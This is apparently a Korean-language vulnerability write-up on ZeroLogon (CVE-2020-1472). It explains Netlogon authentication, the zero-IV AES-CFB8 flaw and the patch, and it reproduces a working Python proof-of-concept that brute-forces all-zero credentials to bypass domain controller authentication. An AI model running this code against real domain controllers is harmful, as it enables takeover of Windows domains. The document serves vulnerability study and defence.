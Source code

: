 ﻿


﻿ZeroLogon 취약점 
==========
Information
-----
* CVE-2020-1472
* 해당 소프트웨어 : Active Directory (Windows Server Directory Service)
* 해당 버젼 : Over Windows Server 2008 R2
*  취약점 유형 : 계정 탈취 취약점

Description
---

해당 취약점은 공격자가 Domain Controller에 대한 TCP 연결을 수립할 수 있다면 Active Directory 상의 모든 계정의 password를 초기화 할 수 있는 취약점이다. 

Root Cause
---
### Active Directory
Active Directory란  Windows Server에서 제공하는 Directory Service
*  Directory Service는 중앙 서버에 공통된 데이터베이스를 생성하여 각 서버와 클라이언트는 해당 데이터베이스를 공유하여 Object를 검색하고 중앙에서 사용자 인증 및 권한 부여 처리가 가능하도록 처리해주는 서비스 

* Domain Controller는 Active Directory를 운영하는 서버 컴퓨터 

* 중앙에 DB를 두고 계정들에 대한 인증을 수행한 후에 요청하는 서비스들을 정상적으로 이용할 수 있다. 
![이미지](/val0ur/CVE/blob/main/CVE-2020-1472/AD%201.PNG)



### Netlogon Protocol
Domain Controller에서 Domain Client를 인증할 때 Netlogon Protocol을 사용한다. 
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/netlogon%20%EC%9D%B8%EC%A6%9D%20%EA%B3%BC%EC%A0%95.PNG)

1. Client와 Server는 Random 8-Byte nonce 값을 교환한다. (Client Challenge, Server Challenge)

2.  KDF를 사용하여 Session Key를 생성한다. 
    > Session Key = KDF(Client PW Hash + Client Challenge + Server Challenge)
  3. Client는 Session Key를 이용해 Client Credential 생성 후 서버로 전송
  4. Server에서 Client가 보낸 Client Credential과 Server에서 계산한 Client Credential이 같으면 정상 Client로 간주하고 Server Credential을 전송 
  5. Client는 만들어진 Session Key를 가지고 이 Credential을 sign + seal 하여 권한이 필요한 작업을 수행한다. 
	  > 4의 인증 수립 후 Message들에 대해 sign + seal을 할지는 Flag 값을 통해 변경 가능 



### Vulnerability
위의 인증과정에서 Client와 Server는 Credential Value를 만들기 위해 NlComputeCredentials 함수를 사용하는데 
암호화 과정에서 IV 값이 0으로 고정되어 있어 발생하는 취약점 

공격자는 해당 취약점을 이용해서 Client Credential을 0으로 만들 수 있고 정상적인 Client로 인증 후 계정의 password를 초기화 시킬 수 있다. 

#### Details 
- NlComputeCredentials 함수는 8-Byte Input(Server 입장에서는 Client Challenge)를 받아 암호화 하여 8-Byte의 Credential을 만든다. 

- 해당 함수는 2DES or AES 암호화를 지원하는데 최근 대부분의 Domain Server는 AES 방식만을 사용한다. 
- 암호화 과정의 NlInitializeCNG 함수를 통해 AES-CFB8을 사용한다는 것을 알 수 있다. 
 ![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/NlInitializeCNG%20func.PNG)

##### AES-CFB8
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/AES-CFB8%20encryption.PNG)

- AES-CFB8은 16 바이트의 IV값을 가진다.
- IV에 Session Key를 인자로  AES를 수행하고 나온 결과값의 첫 바이트와 Plain Text의 첫 바이트를 XOR 하여 Cipher Text를 만든다. 
- IV 값이 랜덤 값일 경우에는 평문을 안전하게 암호화 할 수 있지만 NlComputeCredentials 함수에서는 IV 값을 0으로 사용한다. 

		그렇다면 IV 값이 0일 때 생기는 문제는 무엇인가? 

##### AES-CFB8 (when IV = 0)
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/AES-CFB8%20all-zero.PNG)

- IV 값을 Session Key로 AES를 수행한 후 나온 결과값의 첫 바이트가 0이라면 Plain Text도 0이고 Cipher Text도 0인 경우가 생긴다. 

- 공격자 입장에서는 Session Key를 몰라도 암호화한 결과값의 첫 바이트가 0이 되는 경우만 찾으면 Cipher Text도 0이 되므로 해당 취약점을 이용할 수 있다. 

인증은 NetServerAuthenticate3 함수에서 수행하며 NlComputeCredentials를 통해 Server가 계산한 ClientCredential(MADE)과 Client가 보낸  ClientCredential(GOT)가 동일하다면 인증해준다. 

![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/NetServerAuthenticate3%20func.PNG)

// Zerologon을 활용한 Exploit 부분 아직 안 넣음

Patch
---
20년 8월 MS사는 CVE-2020-1472 패치를 출시했고 21년 2월 9일에 추가 패치를 출시할 예정이다. 

- 현재 패치는 Netlogon Protocol을 변경하고,

- 비규격 장치 검색용으로 이벤트를 기록하고, 
- 명시적 예외를 포함하는 모든 도메인 참가 장치에 대한 보호를 사용하도록 설정하는 기능이 추가됐다. 
 

POC
---
공개된 PoC는 아래와 같다. 

![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/poc1.PNG)
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/poc2.PNG)
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/poc3.PNG)

```Python

#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled. 
  flags = 0x212fffff

  # Send challenge and authentication request.
  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )

    
    # It worked!
    assert server_auth['ErrorCode'] == 0
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
    
    if rpc_con == None:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
``` 

References
---
[1] [Secura - Zerologon(CVE-2020-1472)](https://www.secura.com/blog/zero-logon)

[2] [PoC - SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)

[3] [A different way of abusing Zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)





